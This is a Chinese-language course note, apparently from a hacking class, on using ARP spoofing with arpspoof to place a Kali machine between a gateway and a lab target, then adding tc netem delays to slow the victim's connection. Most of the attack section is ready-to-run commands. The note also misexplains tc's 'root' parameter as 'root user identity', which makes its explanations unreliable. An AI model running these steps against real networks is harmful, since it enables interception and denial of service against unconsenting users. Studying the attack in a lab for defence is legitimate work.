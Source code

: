 # ARP限制网速攻击

大家没想到吧，ARP还能限制对方网速。当kali欺骗了网关和受害者的时候，受害者访问网络就需要经过kali的网卡，那我们限制kali网卡的速度或者转发的速度就可以限制对方的网速。这里可以使用的工具有tc、iptables、WonderShaper等等，我们以tc为例，tc是通过限制网卡的速度来限制对方的，是一种杀敌一千自损八百的手段。

## 1.TC工具介绍

在Linux中，流量控制都是通过TC这个工具来完成的。通常， 要对网卡进行流量控制的配置，需要进行如下的步骤:

◆ 为网卡配置一个队列;

◆ 在该队列上建立分类;

◆ 根据需要建立子队列和子分类;

◆ 为每个分类建立过滤器。

需要注意的是， 在TC 中使用下列的缩写表示相应的网络延迟:

时间的计量单位：

- s、sec或者secs               秒

- ms、msec或者msecs            毫秒

- us、usec、usecs或者一个无单位数字  微秒


QDisc(排队规则) [qdɪsk]是queueing discipline [ˈkjuːɪŋ] [ˈdɪsəplɪn] 的简写，它是理解流量控制(traffic control)的基础。无论何时，内核如果需要通过某个网络接口发送数据包，它都需要按照为这个接口配置的qdisc(排队规则)把数据包加入队列。然后，内核会尽可能多地从qdisc里面取出数据包，把它们交给网络适配器驱动模块。

## 2.TC命令介绍

#### 1.限制网速200ms延时

```
tc qdisc add dev eth0 root netem delay 200ms
参数：
qdisc：排队规则
add:添加
dev：设备（网卡）
root：root用户身份
netem delay：设置网络延时时间
```

#### 2.取消限制网速200ms延时

```
tc qdisc del dev eth0 root netem delay 200ms
参数：
qdisc：排队规则
del:删除
dev：设备（网卡）
root：root用户身份
netem delay：设置网络延时时间
```

#### 3.修改网络延时

```
tc qdisc change  dev eth0 root netem delay 300ms
参数：
qdisc：排队规则
change:修改
dev：设备（网卡）
root：root用户身份
netem delay：设置网络延时时间
```

## 3.ARP攻击限制网速的具体步骤

#### 1.开启端口转发

```
cat /proc/sys/net/ipv4/ip_forward 	        #值为0表示没开启流量转发，为1表示开启了
echo 1 > /proc/sys/net/ipv4/ip_forward     #开启流量转发
```

#### 2.开启ARP攻击

```
arpspoof -i eth0 -r 192.168.70.1 -t 192.168.70.130
```

#### 3.查看靶机当前的网速

```
https://www.speedtest.cn/
```

#### 4.开启网络延迟限速

```
tc qdisc add dev eth0 root netem delay 500ms
```

#### 5.查看限速规则

```
tc qdisc show
```

#### 6.查看靶机当前的网速

```
https://www.speedtest.cn/
```

#### 7.修改网速限制

```
tc qdisc change dev eth0 root netem delay 800ms
```

#### 8.查看限速规则

```
tc qdisc show
```

#### 9.查看靶机当前的网速

```
https://www.speedtest.cn/
```

#### 10.取消限速

```
tc qdisc del dev eth0 root netem delay 800ms
```

#### 11.查看限速规则

```
tc qdisc show
```

#### 12.查看靶机当前的网速

```
https://www.speedtest.cn/
```

## 4.限速原理讲解

![ARP限制网速原理图](https://img.gyxnb.top/img/ARP限制网速原理图.png)

## 5.课堂小结

请参考：ARP限制网速攻击-课后笔记.xmind

 
